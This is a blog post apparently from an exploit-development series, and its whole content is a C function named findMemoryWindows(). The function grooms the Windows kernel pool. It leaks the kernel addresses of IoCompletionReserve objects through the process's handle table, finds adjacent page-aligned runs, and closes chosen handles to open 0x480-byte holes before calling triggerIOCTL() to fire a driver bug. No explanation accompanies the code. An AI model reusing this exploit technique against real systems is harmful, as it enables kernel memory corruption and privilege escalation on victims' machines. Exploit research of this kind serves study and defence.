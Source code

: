 ```yaml
---
layout: post
title: "findMemoryWindows()"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

{% highlight C %}
VOID findMemoryWindows(){

	PSYSTEM_HANDLE_INFORMATION_EX handleInfo;
	getHandles(&handleInfo);

	size_t numRetrievedHandles = handleInfo->NumberOfHandles;
	PSYSTEM_HANDLE_TABLE_ENTRY_INFO_EX handleEntry = handleInfo->Handles;

	HMODULE h = LoadLibraryA("ntdll.dll");
	if(!h){
		printf("[-]Failed to load module\n");
		exit(1);
	}
	NtQueryObject pNtQueryObject = (NtQueryObject)GetProcAddress(h, "NtQueryObject");

	DWORD obj_addr[50000][2];
	int j = 0;

	for (size_t i = 0; i < numRetrievedHandles; i++){
		if(handleEntry->UniqueProcessId == (HANDLE) GetCurrentProcessId()){
			PUBLIC_OBJECT_TYPE_INFORMATION public_object_type_information;
			DWORD size = sizeof(public_object_type_information);
			NTSTATUS st = pNtQueryObject(handleEntry->HandleValue, ObjectTypeInformation, &public_object_type_information, size, NULL);
			if(!NT_SUCCESS(st)){
				printf("NtQueryObject() Failed!\n");
				__asm int 3

			}
			wchar_t IoCoObj[20] = L"IoCompletionReserve";
			if(!wcscmp(IoCoObj, public_object_type_information.TypeName.Buffer)){
				// printf("IoCo: %ls\n", public_object_type_information.TypeName.Buffer);
				// printf("handleEntry->Object: 0x%08x\n", (DWORD) handleEntry->Object);

				// printf("handleEntry->HandleValue: %d\n", handleEntry->HandleValue);
				obj_addr[j][0] = (DWORD) handleEntry->Object;
				obj_addr[j][1] = (DWORD) handleEntry->HandleValue;
				j++;
			}
		}
		handleEntry++;
	}
	qsort(obj_addr, 50000, 2*sizeof(DWORD), comp);

	
	DWORD alloc;
	DWORD obj;
	int hole_count = 0;
	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 2][0] == obj + 0x100 &&
				obj_addr[i + 3][0] == obj + 0x160 &&
				obj_addr[i + 4][0] == obj + 0x1c0 &&
				obj_addr[i + 5][0] == obj + 0x220 &&
				obj_addr[i + 6][0] == obj + 0x280 &&
				obj_addr[i + 7][0] == obj + 0x2e0 &&
				obj_addr[i + 8][0] == obj + 0x340 &&
				obj_addr[i + 9][0] == obj + 0x3a0 &&
				obj_addr[i + 10][0] == obj + 0x400 &&
				obj_addr[i + 11][0] == obj + 0x460 &&
				obj_addr[i + 12][0] == obj + 0x4c0 &&
				obj_addr[i + 13][0] == obj + 0x520 &&
				obj_addr[i + 14][0] == obj + 0x580){

				/*
				printf("[Adjecient Memory Chunk %d]\n", hole_count);
				printf("obj_addr[i][0] = 0x%08x\n", obj_addr[i][0]);
				printf("obj_addr[i + 2][0] = 0x%08x\n", obj_addr[i + 2][0]);
				printf("obj_addr[i + 3][0] = 0x%08x\n", obj_addr[i + 3][0]);
				printf("obj_addr[i + 4][0] = 0x%08x\n", obj_addr[i + 4][0]);
				printf("obj_addr[i + 5][0] = 0x%08x\n", obj_addr[i + 5][0]);
				printf("obj_addr[i + 6][0] = 0x%08x\n", obj_addr[i + 6][0]);
				printf("obj_addr[i + 7][0] = 0x%08x\n", obj_addr[i + 7][0]);
				printf("obj_addr[i + 8][0] = 0x%08x\n", obj_addr[i + 8][0]);
				printf("obj_addr[i + 9][0] = 0x%08x\n", obj_addr[i + 9][0]);
				printf("obj_addr[i + 10][0] = 0x%08x\n", obj_addr[i + 10][0]);
				printf("obj_addr[i + 11][0] = 0x%08x\n", obj_addr[i + 11][0]);
				printf("obj_addr[i + 12][0] = 0x%08x\n", obj_addr[i + 12][0]);
				printf("obj_addr[i + 13][0] = 0x%08x\n", obj_addr[i + 13][0]);
				printf("obj_addr[i + 14][0] = 0x%08x\n\n\n", obj_addr[i + 14][0]);
				*/

				// Create Memory Windows of 0x480 bytes (0x60*12)
				CloseHandle((HANDLE) obj_addr[i + 2][1]);
				CloseHandle((HANDLE) obj_addr[i + 3][1]);
				CloseHandle((HANDLE) obj_addr[i + 4][1]);
				CloseHandle((HANDLE) obj_addr[i + 5][1]);
				CloseHandle((HANDLE) obj_addr[i + 6][1]);
				CloseHandle((HANDLE) obj_addr[i + 7][1]);
				CloseHandle((HANDLE) obj_addr[i + 8][1]);
				CloseHandle((HANDLE) obj_addr[i + 9][1]);
				CloseHandle((HANDLE) obj_addr[i + 10][1]);
				CloseHandle((HANDLE) obj_addr[i + 11][1]);
				CloseHandle((HANDLE) obj_addr[i + 12][1]);
				CloseHandle((HANDLE) obj_addr[i + 13][1]);

				hole_count++;
			}
		}
	}

	triggerIOCTL();

	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 14][0] == obj + 0x580)
				CloseHandle((HANDLE) obj_addr[i + 14][1]);
		}
	}
	printf("Total Windows = %d\n", hole_count);

}
{% endhighlight %}